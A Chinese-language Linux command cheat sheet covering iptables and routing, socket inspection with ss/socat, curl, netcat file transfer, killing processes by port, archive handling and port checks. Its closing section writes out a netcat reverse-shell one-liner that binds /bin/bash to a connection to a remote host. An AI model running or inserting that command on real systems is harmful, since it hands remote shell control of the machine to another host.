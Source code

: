 # 网络

```sh
# 添加IPtables路由规则
iptables -I INPUT -p tcp -s ip --dport port -j ACCEPT
# 添加默认路由
route add -net 0.0.0.0/24  gw 192.168.18.2 em1
route del  default gw 192.168.18.2 # 删除默认路由
# 删除路由规则链
iptables -F chainname 
```

[iptables](http://www.zsythink.net/archives/1199)

## 访问socket

```json
# 通过ss展示网络开放端口
ss -l

ss dst ip:prt|proctol

ncat -U /tmp/tbsocket1

socat -d -d TCP-LISTEN:8080,fork UNIX /
```

参考:

[/how-to-access-unix-domain-sockets-from-the-command-line](https://stackoverflow.com/questions/27195677/how-to-access-unix-domain-sockets-from-the-command-line)

## curl
```sh
# curl发送json
curl -H "Content-Type: application/json" --data @body.json http://localhost:8080/ui/webapp/conf
```


## nc传文件
```sh
#bash 需安装netcat
$ ./nc.exe -v 192.168.18.96 6666 < F:\\AntiyProjects\\src\\ng8w_3.6.5\\comps.py
bogon [192.168.18.96] 6666 (?) open

# 96 使用
[root@bogon python]# nc -v  -l  6666 > comps.py
Connection from 192.168.19.31 port 6666 [tcp/ircu-2] accepted
```



# 进程

## 根据端口号杀进程
```sh
netstat -ntulp
[17:18:40][root@pta-23b7fdb2a2b2407f:~]# netstat -ntulp|grep 127.0.0.*|grep python
[17:19:10][root@pta-23b7fdb2a2b2407f:~]# ps aux|grep 13386
[17:19:18][root@pta-23b7fdb2a2b2407f:~]# kill -9 13386
```

# 文件

## 解压与查看
```sh
# 不解压显示文件列表
tar -tvf *.tgz|*.tar
unzip -l *.zip

# 不解压查看文件内容
zcat *.zip
```
## 分割文件
```sh
split -b fsize fname -d -a 2 prefix_
```


## 检测远程端口是否打开
```shell
telnet ip port
nmap ip -p port 
nc -v host port
```

## nc反向shell

```sh
反向 shell
在服务端访问客户端的 shell

服务器 192.168.11.2 访问本地 shell:

在服务器上: nc -l 1234
在本机: nc 192.168.11.2 1234 -e /bin/bash
```

[nc常用命令](https://www.ifmicro.com/%E8%AE%B0%E5%BD%95/2017/12/12/netcat-usage/)
